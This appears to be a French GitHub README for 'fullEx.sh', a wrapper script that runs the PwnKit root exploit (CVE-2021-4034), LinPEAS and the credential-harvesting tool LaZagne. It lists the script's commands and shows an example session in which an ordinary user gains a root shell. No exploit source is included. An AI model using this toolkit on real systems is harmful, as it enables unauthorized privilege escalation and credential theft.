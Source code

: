 # <img width="1335" height="890" alt="image" src="https://github.com/user-attachments/assets/c947aebb-593b-4027-bc50-ac87663ff387" />


Les exploits root & outils dispo :

💀 PwnKit

🤖 LinPeas

👾 LaZAGNE

# ⚙️ Commandes

```
heisenberg@kb-server:~/fullEx$ ./fullEx.sh -help

                                                    
__________      ____________________       
___  ____/___  ____  /__  /__  ____/___  __
__  /_   _  / / /_  /__  /__  __/  __  |/_/
_  __/   / /_/ /_  / _  / _  /___  __>  <  
/_/      \__,_/ /_/  /_/  /_____/  /_/|_|  
                                                                                                   
by M0rPH3U53

      
Usage: ./fullEx.sh COMMAND
 
Commands:
   -LinPeas       Execute LinPeas
   -LaZagne       Execute LaZagne
   -PwnKit64/32   PwnKit64/32 - CVE-2021-4034    
   -check         Verifie si gcc est installer
   -perm          Applique les droit d'execution
   -help          Affiche les commandes

 ```
# 💲 Exemple

```
heisenberg@kb-server:~/fullEx$ ./fullEx.sh -perm
heisenberg@kb-server:~/fullEx$ ./fullEx.sh -PwnKit64
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@kb-server:/home/heisenberg/fullEx#    
```
